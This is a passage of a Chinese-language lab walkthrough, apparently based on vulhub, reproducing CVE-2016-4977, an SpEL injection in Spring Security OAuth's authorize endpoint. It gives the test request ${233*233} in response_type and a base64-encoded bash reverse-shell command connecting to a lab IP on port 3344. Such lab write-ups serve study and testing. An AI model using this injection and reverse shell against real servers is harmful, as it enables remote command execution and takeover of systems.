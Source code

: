 可以看到报错

![img](assets/1669938731260-3e76805b-8429-4f0f-90ee-e6db3654c858.png)

1. ，我们输入是SpEL表达式${233*233}已经成功执行并返回结果：

```python
http://192.168.1.10:8080/oauth/authorize?response_type=${233*233}&client_id=acme&scope=openid&redirect_uri=http://test
```

![img](assets/1669938513134-10ec1dce-8754-4135-985e-f4397246f07f.png)

1.  然后，我们使用[poc.py](https://github.com/vulhub/vulhub/blob/master/spring/CVE-2016-4977/poc.py)来生成反弹shell的POC（注意：[Java反弹shell的限制与绕过方式](http://www.jackson-t.ca/runtime-exec-payloads.html)）：  

```python
bash -i >& /dev/tcp/192.168.1.129/3344 0>&1
# 编码后
bash -c {echo, YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTI5LzMzNDQgMD4mMQ==}|{base64, -d}|{bash, -i}
```

![img](assets/1669956481291-f27453d1-0820-47c1-951a-35fb01cec07e.png)
